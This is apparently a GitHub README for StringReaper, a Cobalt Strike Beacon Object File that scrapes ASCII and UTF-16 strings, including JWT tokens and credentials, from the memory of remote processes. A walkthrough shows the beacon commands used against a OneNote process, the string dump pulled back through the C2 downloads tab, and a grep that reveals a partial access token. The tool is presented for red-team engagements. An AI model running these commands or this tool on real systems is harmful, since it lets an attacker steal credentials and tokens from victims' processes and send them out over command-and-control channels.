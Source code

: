 # StringReaper 
_Reaping treasures from strings in remote processes memory_
![](./images/stringreaper.png)

CobaltStrike BOF designed to carve strings out of remote process memory. This tool allows operators to carve ASCII and UTF-16 strings from targeted processes, making it effective for retrieving JWT tokens, credentials, and other sensitive data directly from memory. Over the past 3 years i've had great success in using this tool on engagements. Saves time when oping from a C2 where you don't want to have to wait on a full process dump or deal with download size issues.

Extracted strings are saved as ASCII in an output file. It uses [@anthemtotheego](https://x.com/anthemtotheego)'s code to download the output files to the CS `Downloads Tab`. If the target data isn't strings, the alternative `download` mode enables full memory section extraction.

Supports filtering memory regions by type (`private`, `image`, `mapped`, or `all`) and access permissions (`r`, `rw`, `rwx`, or `all`).

Also has some additional features such as:
- `list` mode
  - List the target memory sections details. Useful to make sure you don't accidently commit to downloading a massive amount of memory over the wire.
  - I use this to check before I use the `strings` or `download` modes.
- `peb` mode
  - Displays some of the remote processes PEB. Shows CLI strings, etc.
- `env` mode
  - Display all the environment strings of the remote process in the CS console stdout.

# Demo
_Below is a demo of getting JWT access tokens from the OneNote process `onenoteim.exe`_
- First find the process id for OneNote:
```
[02/07 16:44:28] beacon> ps
[02/07 16:44:29] [*] Process List
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 11576 740               onenoteim.exe              x64   1           SECURE\user
 ...
```
- Add the BOF to CS using the Script Console and `StringReaper.cna` aggressor script
- Use the BOF to get all the strings from read-write heap memory `private rw`:
```
[02/07 16:45:08] beacon> StringReaper 11576 strings private rw
[02/07 16:45:09] [*] started download of memstrings.bin (54784 bytes)
[02/07 16:45:09] [*] download of memstrings.bin is complete
```
- Go to downloads tab and sync the `memdump.bin` or `memstrings.bin` file
![](./images/csdownloadstab.png)

- Then view it locally with `cat`/`vi`/`more`/`less`/`grep`/etc
```bash
0xBoku@kamehameha:~/Desktop/out$ cat memstrings.bin | grep ey
ope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Header>
<Header xmlns="http://schemas.microsoft.com/office/roamingservice">
<ClientInfo xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"<Client>RS_ImmersiveCache</Client><ClientVersion>16.0.14326.22094</ClientVersion><Protocol>1.0</Protocol></ClientInfo></Header></s:Header><s:Body><a:WriteSettingsRequest
xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"xmlns:a="http://schemas.microsoft.com/office/roamingservice">
<a:Identity>eyJ0eXAiOiJKV1QiLCJub25jZSI6IjNtYlJlU2FETWpBM2ZrY1B6cnBVclRBZzM1ZG1qYnFzbHVIbkZMdzdkTkUiLCJhbGciOiJSUzI1NiIsIng1dCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyIsImtpZCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyJ9.eyJhdWQiOiJo..
```

